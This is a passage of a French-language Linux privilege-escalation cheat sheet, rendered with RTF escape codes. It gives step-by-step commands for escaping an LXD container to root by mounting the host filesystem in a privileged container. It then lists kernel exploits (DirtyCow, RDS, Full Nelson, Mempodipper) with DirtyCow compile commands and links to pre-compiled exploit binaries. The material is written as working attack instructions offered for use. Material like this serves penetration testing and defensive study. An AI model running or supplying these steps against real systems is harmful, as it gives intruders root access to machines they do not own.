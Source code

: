 ```powershell\
\
```powershell\
# On cr\'e9e une image Alpine simple\
git clone https://github.com/saghul/lxd-alpine-builder\
./build-alpine -a i686\
\
# On importe l\'92image\
lxc image import ./alpine.tar.gz --alias myimage\
\
# On lance l\'92image\
lxc init myimage mycontainer -c security.privileged=true\
\
# On monte le /root \uc0\u224  l\'92int\'e9rieur de l\'92image\
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true\
\
# On interagit avec le conteneur\
lxc start mycontainer\
lxc exec mycontainer /bin/sh\
```\
\
En alternative, https://github.com/initstring/lxd_root\
\
## Exploits Kernel\
\
On peut trouver des exploits pr\'e9-compil\'e9s dans ces repos, utilisez-les \uc0\u224  vos risques et p\'e9rils !\
* [bin-sploits - @offensive-security](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)\
* [kernel-exploits - @lucyoa](https://github.com/lucyoa/kernel-exploits/)\
\
Les exploits suivants sont connus pour le bon fonctionnement. Vous pouvez chercher d\'92autres exploits en utilisant `searchsploit -w linux kernel centos`.\
\
### CVE-2016-5195 (DirtyCow)\
\
Escalade de privil\uc0\u232 ges (Kernel Linux < 3.19.0-73.8)\
\
```powershell\
# make dirtycow stable\
echo 0 > /proc/sys/vm/dirty_writeback_centisecs\
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil\
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs\
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c\
```\
\
### CVE-2010-3904 (RDS)\
\
Exploit RDS Linux  (Kernel Linux < 2.6.36-rc8)\
\
```powershell\
https://www.exploit-db.com/exploits/15285/\
```\
\
### CVE-2010-4258 (Full Nelson)\
\
Kernel Linux 2.6.37 (RedHat / Ubuntu 10.04)\
\
```powershell\
https://www.exploit-db.com/exploits/15704/\
```\
\
### CVE-2012-0056 (Mempodipper)\
\
Kernel Linux 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)\
```